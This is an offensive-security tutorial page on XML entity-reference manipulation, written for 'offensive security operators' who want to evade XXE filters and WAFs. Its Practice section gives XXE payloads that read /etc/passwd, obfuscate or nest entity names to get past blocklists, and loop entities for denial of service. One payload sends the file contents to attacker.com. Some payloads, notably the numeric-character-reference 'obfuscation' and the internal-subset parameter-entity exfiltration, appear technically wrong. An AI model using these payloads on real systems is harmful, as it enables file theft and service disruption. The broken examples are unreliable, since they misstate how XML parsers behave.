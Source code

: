 ```yaml
---
title: Entity Reference Manipulation Techniques
description: Learn advanced XML entity reference manipulation to evade detection and
  bypass parser restrictions effectively.
keywords:
- Entity Reference Manipulation
- XML Parsing
- XXE Exploitation
- Security Evasion
- XML Parser Bypass
- Nested Entities
- Entity Obfuscation
---
```


# Entity Reference Manipulation

## Context

Entity Reference Manipulation aims to teach offensive security operators how to exploit XML parser weaknesses using advanced methods of evasion and bypass. Understanding XML structures and syntax, standard entity references, the XML parsing process, and basic XML External Entity (XXE) exploitation techniques is a prerequisite for mastering these advanced techniques.

## Theory

### Entity Reference Manipulation Fundamentals

Entity reference manipulation involves crafting or altering XML entity references to evade detection or bypass parser restrictions. Attackers exploit parser behaviors by abusing entity reference resolution and recursion, allowing them to execute malicious payloads without triggering defenses.

### Types of Entity Reference Manipulation

#### General Entity Bypass

This technique involves using standard XML entities in unexpected ways to trigger XXE vulnerabilities. Although typical patterns may be blocked by security mechanisms, creative use of entities can bypass such defenses.

#### Parameter Entity Bypass

Leveraging parameter entities (e.g., `%ent;`) allows attackers to deliver payloads indirectly. These entities enable the combination of different XML constructs to extend the attack's reach and complexity.

#### Nested Entity References

Entities can reference other entities, forming nested structures. This increases complexity and can evade filters set up to detect direct XXE payloads, thereby achieving the attack goals through layers of indirection.

#### Entity Recursion Bypass

Recursive entity definitions can confuse or crash parsers. By designing entities to reference themselves or others in a recursive manner, attackers can exploit parser weaknesses leading to potential denial-of-service scenarios or other unintended executions.

#### Circular Entity Reference

Entities referencing each other in a loop form a circular reference. This technique can evade static analysis by making it difficult for a parser to resolve these references without running into logical loops or errors.

#### Entity Name Obfuscation

Using non-obvious or encoded entity names allows attackers to bypass blacklist filters. By altering the presentation or encoding of entity names, they evade straightforward filtering methods, facilitating undetected deployments.

### Parser Behavior and Security Mechanisms

Some XML parsers resolve entities recursively, enabling complex evasion chains. While security controls might block obvious XXE payloads, they may miss obfuscated or nested references. Manipulated entities can bypass input validation, Web Application Firewalls (WAFs), or static analysis, allowing hostile payloads to execute.

## Practice

### General Entity Reference Obfuscation

- **Payload:**

    ```xml
    <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <root>&#120;&#120;&#101;;</root>
    ```

- **Explanation:** This payload obfuscates the entity reference using numeric character references for the string 'xxe'.

- **Outcome:** Bypasses filters that block direct `&xxe;` references, allowing unauthorized file access.

### Nested Entity Reference Chains

- **Payload:**

    ```xml
    <!DOCTYPE root [
    <!ENTITY a SYSTEM "file:///etc/passwd">
    <!ENTITY b "&a;">
    ]>
    <root>&b;</root>
    ```

- **Explanation:** Entity `b` references entity `a`, increasing payload complexity and avoiding direct pattern-matching filters.

- **Outcome:** Evades simple pattern-matching filters by nesting entities, facilitating unauthorized file access.

### Parameter Entity Bypass

- **Payload:**

    ```xml
    <!DOCTYPE root [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com/?%file;'>">
    %eval;
    ]>
    <root>&exfil;</root>
    ```

- **Explanation:** This payload uses parameter entities to indirectly define and trigger data exfiltration.

- **Outcome:** Bypasses filters that check only general entities, allowing sensitive data exfiltration.

### Entity Recursion and Circular Reference

- **Payload:**

    ```xml
    <!DOCTYPE root [
    <!ENTITY loop1 "&loop2;">
    <!ENTITY loop2 "&loop1;">
    ]>
    <root>&loop1;</root>
    ```

- **Explanation:** The recursive referencing between `loop1` and `loop2` can cause parser errors or bypass static validation through logical looping.

- **Outcome:** Triggers parser instability or bypasses static entity checks, potentially causing denial of service.

### Entity Name Obfuscation

- **Payload:**

    ```xml
    <!DOCTYPE root [
    <!ENTITY xXx SYSTEM "file:///etc/passwd">
    ]>
    <root>&xXx;</root>
    ```

- **Explanation:** Using non-standard or mixed-case entity names like `xXx` allows evasion of blacklist-based filters that commonly block names like `xxe`.

- **Outcome:** Evades filters blocking common entity names, leading to unauthorized file access.

## Tools

- **Burp Suite**
- **curl**
- **XXEinjector**